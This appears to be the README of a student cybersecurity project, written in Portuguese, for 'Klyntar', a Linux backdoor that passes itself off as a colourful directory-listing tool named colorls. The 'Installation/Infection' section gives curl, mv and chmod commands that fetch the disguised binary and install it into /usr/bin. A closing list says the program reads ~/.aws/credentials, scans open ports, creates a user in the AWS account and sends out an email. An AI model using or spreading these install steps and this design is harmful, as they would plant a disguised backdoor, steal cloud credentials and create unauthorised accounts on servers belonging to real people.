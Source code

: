 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_0c44_360x640.jpg" alt="Logo" width="230" height="400">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vulnerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de linha de comando para mostrar os diretórios de forma colorida no terminal :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl https://github.com/gabriel-dantas98/klyntar/releases/download/0.0.2/colorls.tar 

mv colorls /usr/bin/
chmod +x /usr/bin/colorls

colorls help

colorls install
```

## Por trás dos panos 

 - Verifica se existe ~/.aws/credentials;
 - Scaneia todas as portas que estão abertas no host;
 - Cria uma usuário na conta que a instância tem permissão;
 - Cria uma mensagem e envia por e-mail;
